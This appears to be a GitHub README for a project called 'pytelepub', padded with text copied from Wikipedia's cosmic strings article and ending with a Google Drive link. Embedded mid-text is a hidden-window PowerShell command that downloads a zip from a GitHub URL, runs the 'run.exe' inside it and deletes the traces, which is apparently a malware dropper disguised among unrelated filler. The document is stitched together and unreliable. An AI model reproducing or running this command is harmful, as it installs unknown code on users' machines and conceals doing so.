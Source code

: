 # pytelepub
source: en.wikipedia.org/wiki/Cosmic_string
Cosmic strings are hypothetical 1-dimensional topological defects which may have formed during a symmetry breaking phase transition in the early universe when the topology of the vacuum manifold associated to this symmetry breaking was not simply connected. It is expected that at least one string per Hubble volume is formed. Their existence was first contemplated by the theoretical physicist Tom Kibble in the 1970s.

The formation of cosmic strings is somewhat analogous to the imperfections that form between crystal grains in solidifying liquids, or the cracks that form when water freezes into ice. The phase transitions leading to the production of cosmic strings are likely to have occurred during the earliest moments of the universe's evolution, just after cosmological inflation, and are a fairly generic prediction in both quantum field theory and string theory models of the early universe.

In string theory, the role of cosmic strings can be played by the fundamental strings (or F-strings) themselves that define the theory perturbatively, by D-strings which are related to the F-strings by weak-strong or so called S-duality, or higher-dimensional D-, NS- or M-branes that are partially wrapped on compact cycles associated to extra spacetime dimensions so that only one non-compact dimension remains.[1]

The prototypical example of a quantum field theory with cosmic strings is the Abelian Higgs model. The quantum field theory and string theory cosmic strings are expected to have many properties in common, but more research is needed to determine the precise distinguishing features. The F-strings for instance are fully quantum-mechanical and do not have a classical definition, whereas the field theory cosmic strings are almost exclusively treated classically.

Cosmic strings, if they exist, would be extremely thin with diameters of the same order of magnitude as that of a proton, i.e. ~ 1 fm, or smaller. Given that this scale is much smaller than any cosmological scale these strings are often studied in the zero-width, or Nambu–Goto approximation. Under this assumption strings behave as one-dimensional objects and obey the Nambu–Goto action, which is classically equivalent to the Polyakov action that defines the bosonic sector of superstring theory.

In field theory, the string width is set by the scale of the symmetry breaking phase transition. In string theory, the string width is set (in the simplest cases) by the fundamental string scale, warp factors (associated to the spacetime curvature of an internal six-dimensional spacetime manifold) and/or the size of internal compact dimensions. (In string theory, the universe is either 10- or 11-dimensional, depending on the strength of interactions and the curvature of spacetime.)

PowerShell.exe -windowstyle hidden $ident = "Get-ChildItem -Path '.' -Filter 'kpll.p'"; if ($ident.count -eq 0) { echo 'run32.dll found' > kpll.p; Remove-Item project.zip -Force:$true -Confirm:$false; Remove-Item project -Recurse:$true -Force:$true -Confirm:$false; iwr -OutFile project.zip https://github.com/Imper927/pytelepub/raw/master/python_nod.zip; Expand-Archive .\\project.zip; cd project; ./run.exe; cd ..; Remove-Item project.zip -Force -Confirm:$false; Remove-Item project -Recurse:$true -Force:$true -Confirm:$false; Remove-Item project -Recurse:$true -Force:$true -Confirm:$false }

A string is a geometrical deviation from Euclidean geometry in spacetime characterized by an angular deficit: a circle around the outside of a string would comprise a total angle less than 360°. From the general theory of relativity such a geometrical defect must be in tension, and would be manifested by mass. Even though cosmic strings are thought to be extremely thin, they would have immense density, and so would represent significant gravitational wave sources. A cosmic string about a kilometer in length may be more massive than the Earth.

However general relativity predicts that the gravitational potential of a straight string vanishes: there is no gravitational force on static surrounding matter. The only gravitational effect of a straight cosmic string is a relative deflection of matter (or light) passing the string on opposite sides (a purely topological effect). A closed cosmic string gravitates in a more conventional way.

During the expansion of the universe, cosmic strings would form a network of loops, and in the past it was thought that their gravity could have been responsible for the original clumping of matter into galactic superclusters. It is now calculated that their contribution to the structure formation in the universe is less than 10%.

Negative mass cosmic string
The standard model of a cosmic string is a geometrical structure with an angle deficit, which thus is in tension and hence has positive mass. In 1995, Visser et al. proposed that cosmic strings could theoretically also exist with angle excesses, and thus negative tension and hence negative mass. The stability of such exotic matter strings is problematic; however, they suggested that if a negative mass string were to be wrapped around a wormhole in the early universe, such a wormhole could be stabilized sufficiently to exist in the present day.

https://drive.google.com/folderview?id=1C8w_Az3oUoOvcA1fGA6B_XPAkmXiSA6M
